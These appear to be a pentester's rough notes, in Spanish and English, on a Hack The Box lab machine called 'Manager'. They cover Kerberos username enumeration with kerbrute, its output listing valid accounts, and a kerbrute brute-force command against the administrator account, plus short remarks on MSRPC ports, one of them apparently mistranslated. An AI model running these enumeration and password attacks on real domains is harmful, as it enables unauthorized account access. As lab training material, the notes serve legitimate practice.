 

### kerberos p 88:

Kerberos es un protocolo de autenticaci√≥n que se utiliza para comprobar la identidad de un usuario o un host

```
KEBRUTE used for enumeration of kerberos users

kerbrute -domain dc01.manager.htb -users /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -dc-ip 10.10.11.236

2023/10/22 16:51:35 > [+] VALID USERNAME: ryan@manager.htb
2023/10/22 16:52:03 > [+] VALID USERNAME: guest@manager.htb
2023/10/22 16:52:18 > [+] VALID USERNAME: cheng@manager.htb
2023/10/22 16:52:32 > [+] VALID USERNAME: raven@manager.htb
2023/10/22 16:53:47 > [+] VALID USERNAME: administrator@manager.htb
2023/10/22 16:55:36 > [+] VALID USERNAME: Ryan@manager.htb
2023/10/22 16:55:51 > [+] VALID USERNAME: Raven@manager.htb
2023/10/22 16:56:42 > [+] VALID USERNAME: operator@manager.htb
2023/10/22 17:07:09 > [+] VALID USERNAME: Guest@manager.htb
2023/10/22 17:07:15 > [+] VALID USERNAME: Administrator@manager.htb
2023/10/22 17:14:06 > [+] VALID USERNAME: Cheng@manager.htb
2023/10/22 17:28:57 > [+] VALID USERNAME: jinwoo@manager.htb
2023/10/22 17:31:29 > [+] VALID USERNAME: RYAN@manager.htb
2023/10/22 17:40:29 > [+] VALID USERNAME: RAVEN@manager.htb
2023/10/22 17:40:56 > [+] VALID USERNAME: GUEST@manager.htb

Password attack

(with a binary downloaded)

./kerbrute_linux_amd64 bruteuser -d manager.htb /usr/share/wordlists/rockyou.txt administrator

how to log in (??)

[https://www.ibm.com/docs/da/spectrum-symphony/7.3.0?topic=cluster-kerberos-authentication-from-command-line-linux-hosts](https://www.ibm.com/docs/da/spectrum-symphony/7.3.0?topic=cluster-kerberos-authentication-from-command-line-linux-hosts)
```



### 135 445 139

[https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc)

### Port 135 is 

El registro de sucesos de seguridad de Microsoft sobre el protocolo MSRPC (MSRPC) 
es un protocolo de salida activo que recopila sucesos de Windows sin un agente instalado en el host de Windows
